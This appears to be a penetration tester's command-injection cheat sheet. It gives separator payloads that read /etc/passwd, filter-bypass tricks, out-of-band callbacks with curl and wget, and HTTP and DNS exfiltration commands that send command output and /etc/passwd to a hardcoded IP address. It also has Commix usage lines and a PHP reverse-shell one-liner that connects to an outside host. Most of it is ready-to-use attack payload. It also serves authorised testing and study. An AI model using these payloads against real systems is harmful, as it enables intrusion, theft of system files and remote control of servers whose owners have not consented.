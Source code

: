 # Detection
- We should guess background running command.
- Command Separators
  ```bash
  ; cat /etc/passwd
  & cat /etc/passwd
  && cat /etc/passwd
  | cat /etc/passwd
  || cat /etc/passwd
  `cat /etc/passwd`
  $(cat /etc/passwd)
  {cat,/etc/passwd}
  ```
- Bypass
  ```bash
  %0als                                  # JUST in BURPSUITE
  %0dls
  cat$IFS/etc/passwd                     # $IFS  =>  space
  cat ${HOME:0:1}etc${HOME:0:1}passwd    # ${HOME:0:1}  =>  slash
  ```
- Out of Band
  ```bash
  [command seprator] curl cvefix.ir:8080           # nc -lvp 8080
  `wget https://cvefix.ir/OOB`
  $(wget https://cvefix.ir/OOB)
  {wget,https://cvefix.ir/OOB}
  email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||
  ```

# Data Exfilteration
### HTTP
```bash
curl 49.13.57.86:12345 -d "$(id)"                   # Sending out the result of a command
curl 49.13.57.86:12345 --data-binary @/etc/passwd   # Sending out a file
```

### DNS
```bash
# Simple
dig a +short $(whoami).icollab.info

# When data contains space or binary characters
uname -a | od -A n -t x1 | sed 's/ *//g' | while read exfil; do ping -c 1 $exfil.host.tld; done
echo "446...40a" | xxd -r -p            # Extract data from output of previous command
```

# Commix
- https://github.com/commixproject/commix/wiki/Usage
- https://github.com/commixproject/commix/wiki/Usage-Examples
- https://github.com/commixproject/commix/wiki/Filters-Bypasses
  ```bash
  python3 commix.py -r [requestFile] -p [parameter]
  python3 commix.py -r req -p email --level=2 --technique=T        # Time-Based (Blind)
  python3 commix.py -r req -p email --level=2 --technique=f        # File-Based
  ```

# Tip
- In Bug-Bounty we just have out-of-band.
- Generate payload in [revshells](https://www.revshells.com).
  ```bash
  ;php -r '$sock=fsockopen("cvefix.ir",8080);exec("sh <&3 >&3 2>&3");'
  ```
- Search in request and response for `-` that is indicator of os command.
- Internal servers of banks, has no internet, and we can not use OOB techniques.
- `-` is filtered  →  Use file scheme `file:///etc/passwd`.
- Inconsistency: Curl convert these payloads to `ile:///etc/passwd`:
  ```bash
  file\:/etc/passwd
  {file}:/etc/passwd
  ```
- Add `echo` to see the end of backend command.
- Check `'` and `"` to breka hte input context.

# Resource
- https://book.hacktricks.xyz/pentesting-web/command-injection
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection
